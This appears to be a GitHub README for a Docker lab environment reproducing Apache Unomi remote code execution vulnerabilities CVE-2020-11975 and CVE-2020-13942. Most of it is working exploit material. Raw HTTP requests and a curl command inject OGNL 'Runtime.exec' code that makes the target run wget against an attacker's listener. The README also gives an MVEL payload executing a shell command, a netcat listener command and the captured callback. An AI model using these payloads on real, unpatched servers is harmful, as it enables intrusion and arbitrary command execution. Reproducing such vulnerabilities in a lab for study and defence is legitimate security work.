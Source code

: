 # Unomi Enviroment for CVE-2020-11975 & CVE-2020-13942

[Apache Unomi](https://unomi.apache.org/) allows conditions to use OGNL scripting which offers the possibility to call static Java classes from the JDK that could execute code with the permission level of the running Java process.

## Affected Version

|      CVE     | Range |
|--------------|-----------|
| CVE-2020-11975 | <= 1.5.0 |
| CVE-2020-13942 | <= 1.5.1 |

## Usage

Run following command to startup the apache unomi 1.5.0

```bash
docker-compose up
```

### Poc of CVE-2020-11975

After start the `unomi`, listenning on port `8000` with following command

```bash
nc -llv 8000
```

Send the request below with Burp Suite,

> Remeber to replace the ip address `{your ip address}` with yourself, on my device it's `192.168.1.111`.

```http
POST /context.json HTTP/1.1
Host: localhost:8181
Connection: close
Content-Type: application/json
Content-Length: 1527


{
    "source": null,
    "requireSegments": false,
    "requiredProfileProperties": null,
    "requiredSessionProperties": null,
    "events": null,
    "filters": null,
    "personalizations": [
        {
            "id": "gender-test",
            "strategy": "matching-first",
            "strategyOptions": {
                "fallback": "var2"
            },
            "contents": [
                {
                    "id": "var1",
                    "filters": [
                        {
                            "appliesOn": null,
                            "condition": {
                                "parameterValues": {
                                    "propertyName": "(#r=@java.lang.Runtime@getRuntime()).(#r.exec(\"wget http://{your ip address}:8000\"))",
                                    "comparisonOperator": "equals",
                                    "propertyValue": "male"
                                },
                                "type": "profilePropertyCondition"
                            },
                            "properties": null
                        }
                    ],
                    "properties": null
                },
                {
                    "id": "var2",
                    "filters": null,
                    "properties": null
                }
            ]
        }
    ],
    "profileOverrides": null,
    "sessionPropertiesOverrides": null,
    "sessionId": "demo-session-id"
}
```

or use curl

```bash
curl --location --request POST 'http://localhost:8181/cxs/context.json' \
--header 'Content-Type: application/json' \
--header 'Cookie: JSESSIONID=48C8AFB3E18B8E3C93C2F4D5B7BD43B7; context-profile-id=01060c4c-a055-4c8f-9692-8a699d0c434a' \
--data-raw '{
    "source": null,
    "requireSegments": false,
    "requiredProfileProperties": null,
    "requiredSessionProperties": null,
    "events": null,
    "filters": null,
    "personalizations": [
        {
            "id": "gender-test",
            "strategy": "matching-first",
            "strategyOptions": {
                "fallback": "var2"
            },
            "contents": [
                {
                    "id": "var1",
                    "filters": [
                        {
                            "appliesOn": null,
                            "condition": {
                                "parameterValues": {
                                    "propertyName": "(#r=@java.lang.Runtime@getRuntime()).(#r.exec(\"wget http://{your ip address}:8000\"))",
                                    "comparisonOperator": "equals",
                                    "propertyValue": "male"
                                },
                                "type": "profilePropertyCondition"
                            },
                            "properties": null
                        }
                    ],
                    "properties": null
                },
                {
                    "id": "var2",
                    "filters": null,
                    "properties": null
                }
            ]
        }
    ],
    "profileOverrides": null,
    "sessionPropertiesOverrides": null,
    "sessionId": "demo-session-id"
}'
```

Or with MVEL expression

```http
POST /context.json HTTP/1.1
Host: localhost:8181
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Connection: close
Content-Type: application/json
Content-Length: 1064

{
    "filters": [
        {
            "id": "sample",
            "filters": [
                {
                    "condition": {
                        "parameterValues": {
                            "": "script::Runtime r = Runtime.getRuntime(); r.exec(\"touch /tmp/mvel\");"
                        },
                        "type": "profilePropertyCondition"
                    }
                }
            ]
        }
    ],
    "sessionId": "sample"
}
```

And you will see the feedback from container.

```
$ nc -llv 8000         
GET / HTTP/1.1
User-Agent: Wget/1.21
Accept: */*
Accept-Encoding: identity
Host: 192.168.1.111:8000
Connection: Keep-Alive
```

### Debug with Container

The contianer has exposed the debug port on `5005`, you can clone [unomi] and checkout to the tag `unomi-root-1.5.0` with

```bash
git clone https://github.com/apache/unomi.git && cd unomi && git checkout unomi-root-1.5.0
```

Suppose we open with idea, choose `Add Configuration -> Add Remote JVM Debug -> ok`.

Now you can debug as your want.